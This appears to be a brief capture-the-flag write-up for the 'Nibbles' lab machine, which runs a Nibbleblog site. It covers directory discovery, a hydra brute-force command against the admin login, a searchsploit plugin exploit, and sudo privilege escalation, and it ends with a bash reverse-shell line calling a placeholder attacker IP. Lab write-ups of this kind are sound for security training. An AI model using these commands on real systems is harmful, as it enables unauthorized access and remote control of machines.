

# Nibbles

<!-- <summary2><strong>What I Learned</strong></summary2> -->

### What I Learned

<!-- <body> -->

1. Always check machine password settings before brute forcing machine. Could end up with a locked out machine otherwise
2. Writing this from 2 months after I did this machine, I'm kind of embarrassed by how bad this writeup is, but I will keep it up to remind myself how far I have come.
<!-- </body> -->

  
<strong>Writeup Summary</strong>

Scan using nmap. Find the website and analyze the pages using feroxbuster. Look through the files to find a username. Once a username is found, use hydra to brute force passwords and get blacklisted. Try some different passwords like "admin" and "password", but the password is "nibbles". Login to the website. Look on searchsploit for nibbleblog exploits and use it against the nibbleblog plugin and get a shell. Find what commands you can run (sudo -l). Replace the single file with root access and executability with a reverse shell and run it to get a root shell.

 

## Writeup

Start by scanning the machine for open ports

Nmap

Use Feroxbuster to find other directories

- feroxbuster -u http://10.129.62.214/nibbleblog -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt

Find username admin in files

- http://10.129.62.214/nibbleblog/content/private/users.xml

Use Hydra to brute force passwords

- hydra -l admin -P ./xato-net-10-million-passwords-10000.txt 10.129.62.214 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"

Try passwords after getting locked out of box and resetting it
Get access to CLI as user nibbler

Run these commands for enumeration

- `cat /etc/passwd | grep sh$`
- `sudo -l`
- `cat /etc/fstab`

Find sudoable command for running as root
•`sudo -l`

Replace the sudo shell file contents with reverse shell

`nohup bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1`
